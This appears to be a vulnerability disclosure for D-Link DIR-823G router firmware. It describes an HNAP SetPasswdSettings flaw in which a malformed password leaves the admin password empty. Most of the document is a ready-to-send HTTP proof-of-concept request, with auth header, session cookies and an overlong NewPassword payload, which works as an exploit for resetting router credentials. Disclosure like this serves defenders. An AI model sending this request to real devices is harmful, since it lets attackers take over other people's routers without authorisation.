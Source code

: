 # DIR823G_V1.0.2B05_20181207.bin Reset password vulnerability

## Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ： http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-823G

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

35 lines of code try to process the incoming password, if the processing fails, execute 53 lines of code to set the password to empty.

![](img/2.jpg#center)


## Vulnerability verify

![](img/3.gif#center)


## POC

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://purenetworks.com/HNAP1/SetPasswdSettings"
HNAP_AUTH: 8D2D80BB8F1D63D9FF6E08DE6B821073 1675516820
X-Requested-With: XMLHttpRequest
Content-Length: 508
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/SNTP.html
Cookie: uid=GcfQ7q3TwY; PrivateKey=455D512F7EA7AA45CC1B4CBB4562DE49; timeout=106

<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetPasswdSettings xmlns="http://purenetworks.com/HNAP1/"><NewPassword>AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA</NewPassword><ChangePassword>true</ChangePassword></SetPasswdSettings></soap:Body></soap:Envelope>
```
